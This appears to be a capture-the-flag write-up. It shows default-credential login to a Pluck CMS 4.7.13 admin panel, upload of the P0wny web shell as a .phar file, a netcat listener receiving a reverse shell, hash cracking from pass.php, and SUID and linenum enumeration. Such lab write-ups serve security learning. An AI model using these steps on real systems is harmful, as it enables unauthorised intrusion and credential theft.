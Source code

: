 ```
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)                               | php/webapps/49909.py
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
I go on admin and i tried `password` and i am just logged in on the admin panel

**Upload shell**
I switch on : http://10.10.13.4/app/pluck-4.7.13/admin.php?action=files
by reading this : https://loopspell.medium.com/cve-2020-29607-remote-code-execution-via-file-upload-restriction-bypass-f5cff38d94c6

When i upload a php file it's not working so now i upload the P0wny shell using .phar
http://10.10.13.4/app/pluck-4.7.13/files/shell2.phar
Got shell
```
└─$ sudo rlwrap nc -lvnp 1337
[sudo] password for bloman: 
listening on [any] 1337 ...
connect to [10.4.26.216] from (UNKNOWN) [10.10.13.4] 55870
sh: 0: can't access tty; job control turned off
$ 

```
## Lateral Escalation
In `pass.php` i got 
```
cat pass.php
<?php
$ww = 'b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86';
```

```
└─# hashid b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86
Analyzing 'b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86'
[+] SHA-512 
[+] Whirlpool 
[+] Salsa10 
[+] Salsa20 
[+] SHA3-512 
[+] Skein-512 
[+] Skein-1024(512) 
```
Cracked : `b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86:password`
```
www-data@dreaming:/var/www/html/app/pluck-4.7.13/data/settings$ find / -type f -perm /4000 -ls 2>/dev/null
   262815     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
   274370     40 -rwsr-xr-x   1 root     root        39144 May 30 15:42 /usr/bin/umount
   263034     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
   263338    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
```
I can run root it using pkexec.
Not working. i run now linenum
```
[-] Kernel information (continued):
Linux version 5.4.0-155-generic (buildd@lcy02-amd64-103) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #172-Ubuntu SMP Fri Jul 7 16:10:02 UTC 2023


```